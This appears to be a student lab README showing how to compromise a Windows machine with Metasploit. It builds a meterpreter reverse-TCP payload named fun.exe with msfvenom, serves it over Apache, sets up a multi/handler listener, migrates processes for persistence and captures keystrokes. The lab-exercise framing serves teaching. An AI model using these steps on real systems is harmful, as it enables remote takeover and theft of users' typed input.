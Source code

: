 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
### Find the attackers ip address using ifconfig

## OUTPUT :
![image](https://github.com/user-attachments/assets/b8d1f4f4-925d-4e88-b1d6-e7d6658edc4c)


### Create a malicious executable file fun.exe using msfvenom command

msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe

## OUTPUT :

![image](https://github.com/user-attachments/assets/856b040f-1775-471e-8e1e-d667f4569ba7)


copy the fun.exe into the apache /var/www/html folder
sudo systemctl apache2 start

## Check the status of apache2

## OUTPUT :
![image](https://github.com/user-attachments/assets/23ac336b-a8d6-4edf-93fe-3434daf6c452)


### Invoke msfconsole:
## OUTPUT:
![image](https://github.com/user-attachments/assets/3f3b2ffa-2a16-496b-a1cb-2cd25e6cbf68)

Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

## OUTPUT :
![image](https://github.com/user-attachments/assets/858063e6-84c6-44da-8768-dc6e9d0d571e)

Starting a command and control Server
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
exploit
## OUTPUT :
![image](https://github.com/user-attachments/assets/3bdd15b7-7b32-45c8-927f-49573ac59eb3)


### WINDOWS :

On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:
http://192.168.1.2/fun.exe
The file "fun.exe" downloads

## BROWSE OUTPUT :

![image](https://github.com/user-attachments/assets/e4257a84-2cc0-4c63-a45f-c12a4cb3fb48)


## DOWNLOAD OUTPUT :

![image](https://github.com/user-attachments/assets/8f0154f2-01ac-4e17-b854-22405d7699db)


## COME BACK TO PARROT :

To see a list of processes, at the meterpreter > prompt, execute this command:
ps  ⇒ can see the fun.exe process running with pid 1156

## OUTPUT :
![image](https://github.com/user-attachments/assets/c7cf0b48-44e7-4e22-b159-78a9fe41afea)



The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost.
To become more persistent, we'll migrate to a process that will last longer.
Let's migrate to the winlogon process.
At the meterpreter > prompt, execute this command:

migrate -N explorer.exe
at meterpreter > prompt, execute this command:
netstat
A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below.
Notice the "PID/Program name" value for this connection, which is redacted 

## OUTPUT :

![image](https://github.com/user-attachments/assets/878e7940-120a-46f1-bfd4-3230a7788276)

## WINDOWS OUTPUT :

Post Exploitation
The target is now owned. Following are meterpreter commands for key capturing in the target machine
keyscan_start	Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.

## OUTPUT :

![image](https://github.com/user-attachments/assets/5ba33154-e470-483d-aafc-762d21b6946b)

## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
